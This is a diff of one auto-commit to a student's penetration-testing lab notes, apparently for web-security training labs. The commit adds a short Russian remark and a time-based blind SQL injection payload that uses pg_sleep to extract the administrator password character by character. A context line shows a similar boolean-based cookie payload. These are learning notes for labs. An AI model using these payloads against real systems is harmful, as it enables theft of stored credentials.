

Before and after one commit to mikhail-alaska/hse, a Markdown page: pentest/pr4/os.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
Scripted auto-commit on change (2025-10-17 15:01:13) by gitwatch.sh

````diff
--- a/pentest/pr4/os.md
+++ b/pentest/pr4/os.md
@@ -179,3 +179,9 @@ cookies['TrackingId'] = f"ry6OMfqiyJL4qIfd'+AND+(SELECT+SUBSTRING(password,{i+1}
 ```
 
 ## 15. Lab: Blind SQL injection with time delays and information retrieval
+
+Тут уже тоже скрипт с перебором (lab_15.py)
+
+```
+'%3bSELECT+CASE+WHEN+(username%3d'administrator'+AND+SUBSTRING(password,{i+1},1)%3d'{al}')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
+```
````
